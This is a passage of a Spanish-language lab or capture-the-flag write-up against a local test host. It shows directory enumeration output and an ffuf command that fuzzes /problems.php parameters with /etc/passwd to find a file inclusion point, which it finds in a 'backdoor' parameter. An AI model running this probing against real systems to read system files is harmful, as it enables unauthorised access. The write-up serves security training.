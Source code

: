 ```
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10671]
/problems.php         (Status: 200) [Size: 10671]
/server-status        (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos un sitio interesante llamado `/problems.php` vamos a ver que hay dentro.

```
URL = http://<IP>/problems.php
```

Vemos que es donde esta subido el `apache2` normal, por lo que vamos a ver si tuviera algun parametro vulnerable.

## FFUF

```shell
ffuf -u http://<IP>/problems.php?FUZZ=/etc/passwd -w <WORDLIST> -fs 10671
```

Info:

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/problems.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 10671
________________________________________________

backdoor                [Status: 200, Size: 1245, Words: 8, Lines: 26, Duration: 2ms]
:: Progress: [20469/20469] :: Job [1/1] :: 2531 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```
